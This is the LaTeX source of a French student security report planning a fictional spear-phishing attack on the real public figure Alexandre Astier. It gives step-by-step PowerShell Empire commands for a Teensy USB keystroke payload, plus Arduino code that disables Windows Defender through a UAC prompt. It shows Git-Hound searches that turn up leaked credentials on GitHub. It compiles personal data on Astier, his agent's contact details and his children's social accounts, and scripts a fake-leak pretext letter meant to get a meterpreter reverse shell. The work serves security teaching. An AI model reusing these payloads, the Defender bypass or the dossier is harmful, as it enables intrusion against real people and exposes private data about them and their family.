\documentclass{extarticle}
\usepackage[french]{babel}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[headheight=33pt,margin=2.5cm]{geometry}
\usepackage{enumitem}
\usepackage{fancyhdr}
\usepackage[table]{xcolor} % [table] allows cell filling with color
\usepackage{float}
\usepackage{graphicx}
\usepackage{tabularx} % To create a table/array
\usepackage{multirow} % Allows row modifications like merging
\usepackage{makecell} % Allows cell modifications
\usepackage{hyperref}
\usepackage{listings}
% Mofify default parameters for the arrays
\renewcommand{\arraystretch}{2}
\setlength{\tabcolsep}{20pt}
\setlength{\arrayrulewidth}{1mm}

\definecolor{lightcoral}{rgb}{0.94, 0.5, 0.5} % For deadlines
\definecolor{lightgray}{rgb}{0.83, 0.83, 0.83} % For empty cells

% https://en.wikibooks.org/wiki/LaTeX/Title_Creation
% Le TB fait l’objet d’un cahier des charges fixant au minimum :
%   - les objectifs;
%   - le déroulement global du travail, ses principales étapes;
%   - les résultats attendus et délivrables.

\pagestyle{fancy}
\rhead{Département TIC - Télécommunications}
 \lhead{
\includegraphics[scale=0.4]{images/HEIG-VD_Logo_83x25_RVB_ROUGE.png}} % HEIG logo in header
\lfoot{Projet SEN: Spear Phishing}
\cfoot{\thepage}
\rfoot{Jérôme Bagnoud et Florian Polier}
\renewcommand{\footrulewidth}{0.4pt} % default is 0pt, place a line above footer

\setenumerate{label=$\bullet$} % Change the default label for enumerate

\begin{document}
    
    \begin{titlepage}
        \begin{center}

            \begin{figure}[H]
                
\includegraphics[scale=0.7]{images/HEIG-VD_Logo96x29_RVB_ROUGE.png}
            \end{figure}
            \vspace{2cm}
            \Huge
            \textbf{Projet SEN: Spear Phishing}

            \vspace{0.4cm}
            \LARGE
            Rapport

            \rule{0.7\textwidth}{.5pt}

            \vspace{0.4cm}
            \Huge
            Attaque fictionnelle sur Alexandre Astier

            \vspace{0.5cm}
            \large
            Printemps 2020

            \vspace{6cm}

            \Large
            \begin{tabular}{r l}
                \textbf{Étudiants :} & Jérôme Bagnoud \& Florian Polier\\
                \textbf{Professeur :} & Abraham Rubinstein \\
                \textbf{Assistant :} & Yann Lederrey \\
            \end{tabular}
            
        \end{center}
    \end{titlepage}

    %% \input{file.tex} allows you to insert a .tex file in your documents

    \section{Présentation des outils}

\subsection{Premier outil: Teensy}

\subsubsection{Présentation}

Le Teensy est un kit de développement similaire aux produits de la gamme Arduino, 
ce dispositif peut-être utilisé comme un HID (Human Interface Device), 
c’est à dire se faire passer pour un clavier par exemple et envoyer des frappes de clavier à l’ordinateur 
auquel il est connecté.

Ce produit est aussi similaire au fameux “Rubber Ducky”, produit par la société Hak5, 
il fournit les même possibilité mais il nécessite une configuration initial un peu plus poussé.

\subsubsection{Installation}
Pour commencer à développer sur le Teensy, il faut installer \href{https://www.arduino.cc/en/main/software}{l’IDE de Arduino}, 
une fois l’installation effectuée il faut installer le \href{https://www.pjrc.com/teensy/teensyduino.html}{plugin Teensyduino}, qui va permettre de programmer sur le Teensy.

Pour créer les différents payloads d’attaque,nous avons utilisé le framework “Empire”, qui permet de faciliter 
la création de payloads malveillant pour les Teensy.

Pour l’installer il suffit simplement de taper la commande suivante sur Kali Linux:

\begin{lstlisting}{language=bash}
\> apt install powershell-empire
\end{lstlisting}

Pour les autres distribution voir \href{https://github.com/BC-SECURITY/Empire/tree/dev}{ici}. 

\subsubsection{Création de payloads}
Nous allons donc utiliser “Empire” pour créer des payloads pour le Teensy, pour ce faire, il faut démarrer “Empire” en tapant: 

\begin{lstlisting}{language=bash}
> powershell-empire
\end{lstlisting}

Ensuite il faut choisir quel listener utiliser, nous allons utiliser le listener “http”, il faut donc taper:

\begin{lstlisting}{language=bash}
> uselistener http
\end{lstlisting}

Ensuite, on peut configurer ce module comme un module Metasploit, ici on va juste changer le port d’écoute en tapant:

\begin{lstlisting}{language=bash}
> set Port 9000
\end{lstlisting}

Puis pour exécuter le listener on tape:

\begin{lstlisting}{language=bash}
> execute
\end{lstlisting}

Après il faut choisir le mode de transmission, ici on va choisir la transmission par un Teensy, il faut donc taper:

\begin{lstlisting}{language=bash}
> usestager windows/teensy
\end{lstlisting}

Puis associer le stagers au listener en tapant:

\begin{lstlisting}{language=bash}
> set Listener http
\end{lstlisting}

Et enfin, générer le payload en tapant:

\begin{lstlisting}{language=bash}
> generate
\end{lstlisting}

Empire devrait afficher que le fichier de script Arduino a bien été créer:


\includegraphics[scale=0.8]{images/SEN_Projet_Image06.png}

Il ne nous reste plus qu’à le compiler et le transférez sur le Teensy, pour cela il faut 
revenir sur l’IDE Arduino et ouvrir le fichier précédemment créé, puis cliquez sur le bouton en haut à gauche de compilation/vérification:


\includegraphics[scale=0.8]{images/SEN_Projet_Image010.jpeg}

Puis, une fois la compilation finie, il faut cliquer sur le bouton d’upload vers le Teensy:


\includegraphics[scale=0.8]{images/SEN_Projet_Image011.jpeg}

Il est possible que Arduino ne parviennent pas à mettre le Teensy en “Program Mode”, dans ce cas là, appuyez sur 
le bouton présent sur le Teensy pour le mettre en “Program Mode” manuellement.

Après tout cela, branchez le Teensy sur l’ordinateur cible, celui-ci devrait ouvrir un shell de cmd et tapez 
son payload pour l'exécuter avec Powershell, une fois ceci fait, un agent devrait être disponible sur Empire:


\includegraphics[scale=0.8]{images/SEN_Projet_Image07.png}

Pour voir les agents avec lesquels il est possible d'interagir, tapez:

\begin{lstlisting}{language=bash}
> agents
\end{lstlisting}


\includegraphics[scale=0.5]{images/SEN_Projet_Image08.png}

Pour interagir avec un agent, tapez:

\begin{lstlisting}{language=bash}
> interact $ID_AGENT
\end{lstlisting}

Il est maintenant possible d'interagir avec la machine de la victime !


\includegraphics[scale=0.48]{images/SEN_Projet_Image09.png}

\subsubsection{Bypass Winodws Defender}

Dans l'exemple précédent, si l'ordinateur était équipé de Windows Defender, le payload était bloqué, nous allons donc
devoir désactiver Windows Defender avec le Teensy.

Pour ce faire il faut éditer le script Arduino produit par “Empire” et ajoutez ces quelques lignes:

\begin{lstlisting}{language=c}
void sendKey(uint8_t keyin){
  clearKeys();
  Keyboard.set_key1(keyin);
  Keyboard.send_now();
  clearKeys();
  delay(200);
}
\end{lstlisting}

La fonction "sendKey()" vient de ce site: \url{https://www.securitysift.com/fun-with-teensy/}, j'ai eu quelques problèmes avec les différences de délai entre
ma VM Windows et ma machine local, j'ai donc décider d'utiliser cette fonction afin de régler ces problèmes.

Elle permet simplement d'envoyer des frappes clavier, mais elle réinitialise à chaque fois l'état des touches de contrôle (CAPS LOCK par exemple).

\begin{lstlisting}{language=c}
Keyboard.print("powershell -Command \"Start-Process PowerShell -ArgumentList '-Command Set-MpPreference -DisableRealtimeMonitoring $true' -Verb RunAs\"");
sendKey(KEY_ENTER);
sendKey(KEY_LEFT);
sendKey(KEY_LEFT);
sendKey(KEY_ENTER);
\end{lstlisting}

La commande permettant de désactiver la protection active de Windows Defender est la suivante: 

\begin{lstlisting}{language=powershell}
Set-MpPreference -DisableRealtimeMonitoring $true
\end{lstlisting}

On va donc placer cette commande comme argument d'un commande PowerShell lancé en tant qu'utilisateur privilégié.

Cela va désactiver Windows Defender et appuyer sur "Oui" au moment de l'apparition de l'UAC, il faut pour cela que l'utilisateur dispose des droits nécessaire.

Il faut placer ce bout de code là avant l'exécution du payload Base64 d'Empire.

\subsubsection{Sources}
\begin{enumerate}
    \item \url{https://null-byte.wonderhowto.com/how-to/use-powershell-empire-generating-stagers-for-post-exploitation-windows-hosts-0179939/}
    \item \url{http://www.powershellempire.com/?page_id=110}
    \item \url{https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---Windows-10-:-Disable-Windows-Defender-through-powershell}
    \item \url{https://serverfault.com/questions/464018/run-elevated-powershell-prompt-from-command-line/464024}
    \item \url{https://www.securitysift.com/fun-with-teensy/}
    \item \url{https://social.technet.microsoft.com/Forums/en-US/316d5790-8186-4ffa-875c-6b943478995b/start-powershell-script-from-cmd-as-admin?forum=winserverpowershell}
\end{enumerate}

\subsection{Deuxième outil: Git-Hound}

\subsubsection{Présentation}

Git-Hound est un outil qui permet de trouver des secrets sur des repository GitHub, des secrets comme des clés d'API AWS, 
ou des mot de passe de base de donnée, et encore pleins d'autre informations. 

Pour fonctionner il se sert de l'API GitHub et il fouille parmi les résultats de recherche afin de détecter 
différents éléments sensibles, à l'aide de Regex (disponible en partie ici: \url{https://www.ndss-symposium.org/wp-content/uploads/2019/02/ndss2019_04B-3_Meli_paper.pdf}), 
par exemple si il trouve un chaîne de caractère du type:

\begin{lstlisting}{}
token=202cb962ac59075b964b07152d234b70
\end{lstlisting}

Il va pouvoir détecter que c'est un token et que c'est potentiellement une information sensible.

\subsubsection{Installation}

1) Téléchargez la dernière release (\url{https://github.com/tillson/git-hound/releases})

2) Créer un fichier {\bfseries config.yaml} et mettez votre nom d'utilisateur et votre mot de passe Git Hub comme cela:

\begin{lstlisting}{language=yaml}
github_username: $USERNAME_GITHUB
github_password: $PASSWORD_GITHUB
\end{lstlisting}

On peut ensuite lancer Git-Hound et lui passer des inputs comme ceci:

\begin{lstlisting}{language=shell}
> echo "domain.com" | ./git-hound
\end{lstlisting}

\subsubsection{Exemples d'utilisation}

Comme expliqué par le créateur du script\footnote{\url{https://tillsongalloway.com/finding-sensitive-information-on-github/index.html}}, 
celui-ci est utilisé pour trouver des secrets sur des entreprises, particulièrement sur des sous-domaines un peu caché, c'est donc ce que l'on va tester ici.

J'ai pour cela réuni la liste des domaines connu de l'EPFL et d'autres domaines, à l'aide de ce site: \url{https://www.threatcrowd.org/}

J'ai placer les domaines dans une liste et j'ai donner la liste à Git-Hound, afin qu'il cherche des secrets lié aux domaines, comme cela:

\begin{lstlisting}{language=shell}
> ./git-hound --subdomain-file list.txt
\end{lstlisting}
  
Git-Hound va donc chercher les domaines sur GitHub, puis scanner les repositories qu'il va trouver à la recherche de secret et les afficher sur la console.

Voici ce que l'on peut trouver par exemple: \\


\includegraphics[scale=0.48]{images/SEN_Projet_Image014.png} \\


\includegraphics[scale=0.48]{images/SEN_Projet_Image013.png} \\

Il est posssible de paramétrez le scan en limitant le nombre de page avec l'argument {\bfseries --pages}.

Il est aussi possible d'utiliser la grande liste de filtre GitHub afin d'effectuer des recherches plus précises\footnote{\url{https://help.github.com/en/github/searching-for-information-on-github/searching-code}},
par exemple si on veut trouver des fichier properties de projet Spring Boot, on peut taper le filtre:
\\

\begin{lstlisting}{language=shell}
  filename:application.properties
\end{lstlisting}

Les fichiers properties sont des fichiers utilisées par Spring Boot afin de stocker des variables comme des credentials de base de donnée par exemple.

Voici un exemple de résultat: \\

\begin{lstlisting}{language=shell}
>  echo "filename:application.properties" | ./git-hound
\end{lstlisting}


\includegraphics[scale=0.48]{images/SEN_Projet_Image015.png} \\


\includegraphics[scale=0.48]{images/SEN_Projet_Image016.png} \\

Nous avons trouvé les credentials d'une base de donnée sur la plateforme Amazon EC2, nous n'avons bien sur pas essayé les credentials par soucis de légalité.

Un autre cas de test intéressant est le filtre:

\begin{lstlisting}{language=shell}
  filename:.env
\end{lstlisting}

Le fichier .env permet de passer des variables d'environnement à des containers Docker , il est donc souvent utilisé pour transmettre des clés d'API ou des secrets.
\\

Trouvailles avec la commande:

\begin{lstlisting}{language=shell}
>  echo "filename:.env" | ./git-hound
\end{lstlisting}


\includegraphics[scale=0.48]{images/SEN_Projet_Image017.png}


\includegraphics[scale=0.48]{images/SEN_Projet_Image018.png}

\subsubsection{Comment tester les clés ?}

Nous avons trouvé une repository Git Hub qui explique comment savoir si une clé d'API est valide:
\\

\url{https://github.com/streaak/keyhacks} \\

Nous n'avons pas testé la validité des clés/tokens trouvé durant ce projet par soucis de légalité.

\subsubsection{Points forts/faibles}

{\bfseries Points forts:} \\

- Contrairement à d'autre outils qui vérifie la présence de secrets/tokens dans Git Hub, Git-Hound permet de scanner
tous GitHub et pas seulement une repository (comme git-secrets par exemple).

- Les regex sont plutôt bien implémenté et le script semble aussi vérifier que l'entropie des secrets trouvés
soient assez élevé, ceci dans le but d'éviter les "faux" tokens, ou les "placeholder".

- Recherche aussi dans les "Gists", qui sont de petites notes qu'il est possible de créer sur GitHub \footnote{\url{https://gist.github.com/}}.
\\

{\bfseries Points faibles:} \\

- Ne semble pas encore supporter la détection de clés privés (RSA, EC, OpenSSL, etc...).

- Parfois assez lent.

- Nécessite de donner son username/password (obligatoire à cause des limitations de l'API GitHub).

\subsubsection{Sources}
\begin{enumerate}
  \item \url{https://tillsongalloway.com/finding-sensitive-information-on-github/index.html}
  \item \url{https://www.ndss-symposium.org/wp-content/uploads/2019/02/ndss2019_04B-3_Meli_paper.pdf}
\end{enumerate}

    \section{Choix de la cible et recherche d'informations}

Dans cette section, nous allons justifier notre choix de cible, ainsi qu'exposer les différentes informations
que nous avons pu récupérer à son sujet. 

\subsection{Notre cible: entrepreneur et célébrité}

Comme nous l'avons appris pendant le cours de SEN, le choix de la cible est crucial en social engineering.

Avec des attaques de Spear Phishing, rien ne doit être laissé au hasard et des heures de travail sont nécessaires afin de construire un scénario
crédible. Il faut donc que le jeu en vaille la chandelle, et que la cible ait de la valeur. 

Pour notre attaque, nous avons choisi Alexandre Astier. Entrepreneur, acteur, scénariste, compositeur, cet homme aux multiples casquettes est selon nous une cible de choix. 
Ses informations personnelles, son travail ainsi que sa fortune pourrait permettre à de veritables attaquants de s'enrichir en cas d'attaque.

De plus, de par la qualité de son réseau professionnel, il pourrait également servir de vecteur d'attaque en post-exploitation.

\subsection{Informations récoltées}

\subsubsection{Identité}\footnote{\url{https://fr.wikipedia.org/wiki/Alexandre_Astier}}
\begin{enumerate}
\item Date de naissance: 16 juin 1974
\item Métier : humoriste, acteur, réalisateur, scénariste et compositeur
\item Religion : Agnostique (et n’aime pas les institutions religieuses)\footnote{\url{https://www.youtube.com/watch?v=SPGuaQIp7s0}}
\item Hobbies : L’astronomie\footnote{\url{https://www.youtube.com/watch?v=LwkmqvmcyEw&feature=emb_title}}, la vie de famille, son métier..
\subsubsection{Entrepreunariat}
\item Gérant de l’entreprise Dies Irae\footnote{\url{https://www.societe.com/societe/dies-irae-453586547.html}}
\begin{enumerate}
\item Fondée en 2004
\item Chiffre d’affaire 768 249 euros en 2014
\item Adresse: 10 RUE JUIVERIE 69005 Lyon 5e Arrondissement
\item APE: 5911C / Production de films pour le cinéma
\item 1 ou 2 salariés
\item Autre dirigeant : SEVILLA Joëlle
\end{enumerate}
\item Éditeur BD: Casterman\footnote{\url{https://www.casterman.com/Bande-dessinee/Auteurs/astier-alexandreFil}}
\item Agence Artistique: Film Talents\footnote{\url{http://www.filmtalents.com/fiche.cfm/115_2-150100_alexandre_astier.html}}
\begin{enumerate}
\item Agent: Juanita Fellag
\item juanita@filmtalents.com
\item 01 85 34 14 54
\end{enumerate}

\subsubsection{Famille}
\item Père : Lionel Astier
\item Mère : Joelle Sevilla
\item Belle-mère :  Josée Drevon
\item Demi-frère: Simon Astier
\item Compagne:  Anne-Gaelle Daval (ex), Luna Karys (twitter: Luna\_KAArys)
\item Enfants (6) et comptes instagram \footnote{\url{https://www.instagram.com/stories/highlights/18074535850193060/}}:
\begin{enumerate}
\item Ariane Astier (ariane\_astier)
\item Jeanne Astier (20 ans) (jeanne\_astier\_)
\item Neil Astier (neilastier)
\item Ethan Astier (ethanastier)
\item James Astier (7 ans)
\item Aaron Astier (2 ans)
\end{enumerate}


\subsubsection{Études}
\item Musique au conservatoire et à l’American School of Modern Music de Paris promotion 1989
\subsubsection{Autre}
\item Différent Juridique avec CALT concernant le droit de l'oeuvre "Kaamelott" \footnote{\url{https://bit.ly/2YU4HBI}}

\end{enumerate}

\subsection{Utilité des informations récoltées}
Grâce aux informations récoltées, nous pouvons dresser un portrait de M. Astier. 

Très attaché à la notion de famille, il aime s'entourer de ces proches afin de mener à bien ces divers projets.
Ces derniers, très nombreux et variés (film, BD, musique, spectacles) sont le fruit d'un homme intellectuellement très curieux et dynamique. 
Certaines de ces oeuvres, en particulier l'univers étendu de "Kaamelott" sont le travail d'une décennie et semblent lui porter particulièrement à coeur et pourraient être utilisées dans une attaque.

Souvent considéré comme "très intelligent" par le grand public, la naiveté ne fait pas parti de ses faiblesses.

Il semble posséder quelques connaissances en informatique \footnote{\url{https://twitter.com/aastieroff/status/1049735438125162496}}\footnote{\url{https://twitter.com/AAstierOff/status/1046043266305667072}}, le rendant probablement plus sensibilisé aux diverses arnaques de bas-étage

Peu présent sur les réseaux sociaux, il serait difficile de l'attaquer via ce vecteur vu la quantité titanesque de messages qu'il reçoit. (Son compte ne semble pas sous-traité)

Pour conclure, il semble que son PoC se fasse principalement via son agente, Juanita Fellag ou via le courrier de fans à l'adresse de son entreprise. Il semble indiquer d'utiliser un de ces deux moyens de contact afin de lancer l'attaque.

    \section{Scénario d'attaque}

\subsection{Objectif de l'attaque}
\paragraph{} En tant qu'attaquant, nous sommes intéressé par notre cible (Alexandre Astier) pour plusieurs raisons:
\begin{enumerate}
    \item Récupérer ses informations personnelles (revente)
    \item Vecteur pour des attaques sur d'autres célébrités
    \item Curiosité de son travail
\end{enumerate}

Notre attaque nous permettra d'obtenir un accès à l'ordinateur personnel de M. Astier, ou à celui de son agente Mme. Juanita Fellag.
Il est hautement problème que cet accès nous permettra de remplir nos objectifs.

Si nous arrivons effectivement à infecter le PC de l'agente de M. Astier, 
nous aurons aussi certainement accès à tous les autres clients\footnote{\url{http://www.agencesartistiques.com/Fiche-Agent/1840-juanita-fellag.html}} de l'agence, puisque Mme Juanita Fellag en est la directrice\footnote{\url{https://www.societe.com/societe/film-talents-453963548.html}}.

\subsection{Support de l'attaque}

Comme support de l'attaque, nous avons choisi \textbf{le courrier des lecteurs\footnote{\url{https://artistes-productions.com/2019/08/07/contacter-alexandre-astier-ecrire-a-alexandre-astier/}}}.
Nous pensons que notre support est le plus adapté car c'est ce qui aura le plus de chance d'atteindre la cible.
Astier reçoit des milliers de messages sur les réseaux sociaux, ce qui implique une faible chance de succès.
Par contre, il reçoit beaucoup moins de lettres, et les traite en grande majorité.

De plus, cela nous permettra de profiter du format (hardware) pour utiliser un payload original. Nous utiliserons une \textbf{Teensy}, présentée plus tôt, que nous chargerons avec un payload et que nous lui enverrons

Afin de l'inciter (M. Astier ou son agente) à connecter la clé malveillante, nous utiliserons le \textbf{film Kaamelott en post-production} comme prétexte. 
Nous avons écrit le scénario suivant: Nous enverrons une lettre accompagnant la clé affirmant que le film a été \textbf{leaké}, et que la preuve est sur la clé ainsi que les instructions pour empêcher sa mise en ligne.

Au vu de l'importance de ce film pour M. Astier (il travaille sur l'oeuvre Kaamelott depuis 2004), nous espérons que la peur lui ferait oublier la prudence quelques instants, afin de lui faire connecter la clé qui contient le payload.
\subsection{Payload de l'attaque}

La limite entre le payload et le support est, dans notre cas, assez floue. Nous avons donc expliqué la majeure partie de la procédure.
Le payload logiciel présent sur la clé nous ouvrira un shell \textbf{meterpreter} en reverse TCP. Ainsi, nous aurons le contrôle complet de sa machine, et accès à toutes les ressources qu'elle contient. (Notamment le potentiel film.)


    \section{Simulation de l'attaque}

Dans cette section, nous allons tenter de simuler l'attaque construite jusqu'à présent. 
Nous allons décrire les différentes étapes de l'attaque, et tenter d'anticiper les réactions
de Monsieur Astier. Finalement, nous allons énumérer les résultats qui seraient potentiellement obtenus
et ce que nous pourrions en tirer en tant qu'attaquant.

\subsection{Étapes de l'attaque}

L'attaque n'est pas très complexe, elle va principalement s'appuyer sur le courrier envoyé à Monsieur Astier :


\includegraphics[scale=0.4]{images/courrier.jpeg}

Cette lettre sera envoyée avec la \textbf{Teensy}, le payload de l'attaque.
Il y a deux potentiels destinataires: Monsieur Astier et son agente artistique, Juanita Fellag. 
Nous pensons que cette lettre aboutira pour les raisons suivantes:
\begin{enumerate}
    \item Le courrier des lecteurs est systématiquement lu, et c'est un vecteur d'attaque inattendu.
    \item Le (faux) piratage impacte autant M. Astier que Mme Fellag car cette dernière est CEO de l'agence
    \item Par conséquent, cette lettre joue sur l'émotion, augmentant les chances de réussite de l'infection
    \item En utilisant un nom connu du grand public (Anonymous), nous leur permettons de mieux appréhender la menace 
\end{enumerate}

Le deuxième étape consiste en l'exploitation du payload (reverse TCP metasploit).
Avec ce dernier, nous pourrions exfiltrer des documents, évoluer dans le réseau de l'agence (si Mme Fellag insère la clé), ou encore installer d'autres
payload (malware, key loggers, etc.)

Nous proposons une adresse mail dans la lettre, car il est aussi possible que le payload ne fonctionne
pas, ou que la peur n'aura pas suffit à la victime pour insérer la clé. Dans ce cas, elle tentera sûrement un contact, ce qui nous permettra peut-être d'obtenir
l'adresse mail d'Alexandre Astier, nous offrant un nouveau moyen d'attaque. 
\subsection{Réaction de la victime}

Il existe donc plusieurs scénarios, que nous ne pourrons pas contrôler après l'envoi de la lettre:
\begin{enumerate}
    \item La victime utilise la clé
    \item La victime n'utilise pas la clé mais écrit un mail
    \item La victime ne fait rien
\end{enumerate}
Dans les deux premiers cas, nous obtenons quelque chose. Nous pensons qu'il est assez improbable que le troisième scénario arrive car la curiosité et la peur seront trop grandes pour
simplement ignorer la manoeuvre.

Après avoir demandé à un proche de jouer le rôle d'Astier et de son agente, il arrive aux même conclusions que nous et aurait agit
selon le premier ou deuxième scénario.

En conclusion, nous sommes satisfait de l'attaque mise en place et pensons que le taux de réussite justifie l'envoi d'un payload hardware coûtant une certaine somme d'argent.
\subsection{Résultats potentiellement obtenus}

Afin de déterminer quels types de résultats nous obtenons, nous partons du principe que l'attaque a réussi.
À l'aide d'un shell meterpreter ayant les droits systèmes sur la machine, nous pourrions par exemple récupérer:
\begin{enumerate}
    \item Des logins (mot de passe Windows, keyloggers, réutilisation de password..)
    \item Des documents confidentiels (avancement de ces travaux, communication privées)
    \item De nouveaux accès (privilege escalation)
\end{enumerate}
Toutes ces ressources sont précieuses et pourraient donner beaucoup de pouvoir à un attaquant. 


    
\end{document}